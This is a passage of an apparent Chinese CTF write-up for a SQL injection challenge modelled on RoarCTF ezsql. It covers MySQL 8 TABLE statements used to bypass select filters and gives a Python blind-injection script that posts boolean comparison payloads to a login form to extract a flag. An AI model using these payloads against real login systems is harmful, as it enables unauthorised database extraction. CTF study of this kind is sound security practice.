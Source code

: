 

这儿我也想到了一个bypass

`[bypass information_schema](https://www.anquanke.com/post/id/193512)`(好像用不到)



对于堆叠注入不能用，可以看看[mysql8的新特性](https://0xgeekcat.github.io/%E5%88%A9%E7%94%A8MySQL8%E6%96%B0%E7%89%B9%E6%80%A7%E7%BB%95%E8%BF%87select%E8%BF%87%E6%BB%A4.html#MySQL8-%E8%AF%AD%E6%B3%95%E6%96%B0%E7%89%B9%E6%80%A7)

```
TABLE statement - 列出表中全部内容
VALUES statement - 列出一行的值
```

该题是借用[`RoarCTF-ezsql`](https://blog.z3ratu1.cn/%5BRoarCTF2020%5Dwp.html)

这个题的脚本

```python
import requests
 
def bind_sql():
    flag = ""
    dic = "~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJIHGFEDCBA@?>=<;:9876543210/-,+*)(&%$#!"
    for i in range(1,1000):
        f = flag
        for j in dic:
            _ = flag + j
            # payload = "11'||('ctf',binary'{}',1,2,3,4)<(table/**/mysql.innodb_table_stats/**/limit/**/1,1)#".format(_)
            #admin,fl11aag
            payload = "11'||(binary'{}')<(table/**/ctf.fl11aag/**/limit/**/1,1)#".format(_)
            print(payload)
            data = {
                "username": payload,
                "password": "admin"
            }
            res = requests.post(url=url, data=data)
            if 'success' in res.text:
                if j == '~':
                    flag = flag[:-1] + chr(ord(flag[-1])+1)
                    print(flag)
                    exit()
                flag += j
                print(flag)
                break
        if flag == f:
            break
    return flag
 
if __name__ == '__main__':
    url = 'url/login.php'
    result = bind_sql()
    print(result)
```

